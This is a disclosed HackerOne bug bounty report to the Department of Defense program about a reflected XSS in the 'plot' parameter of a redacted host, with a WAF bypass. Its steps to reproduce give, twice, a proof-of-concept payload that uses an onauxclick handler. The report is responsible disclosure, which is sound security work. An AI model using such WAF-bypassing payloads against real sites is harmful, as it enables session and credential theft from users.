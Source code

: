 # Reflected XSS | https://████████

## Report Details
- **Report ID**: 1736433
- **URL**: https://hackerone.com/reports/1736433
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-10-16T00:49:16.504Z
- **Disclosed**: 2022-11-18T18:33:38.834Z

## Reporter
- **Username**: x3ph_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Summary

Hi team, there's a reflected XSS on https://████ using the `plot` param. There's a WAF in place but it's possible to bypass it.
Steps to reproduce

1. Click https://██████████/fcgi-bin/getplot.py?plot=aaa%3Ch1%20onauxclick=confirm(document.domain)%3ERIGHT%20CLICK%20HERE
2. Observe the popup showing document.domain when right clicking "RIGHT CLICK HERE"

███

## Impact

The attacker can trigger remote code execution on the victim’s browser, and steal credentials, sessions, and potentially send malware to the victim.

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
1. Click https://████████/fcgi-bin/getplot.py?plot=aaa%3Ch1%20onauxclick=confirm(document.domain)%3ERIGHT%20CLICK%20HERE
2. Observe the popup showing document.domain when right clicking "RIGHT CLICK HERE"

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
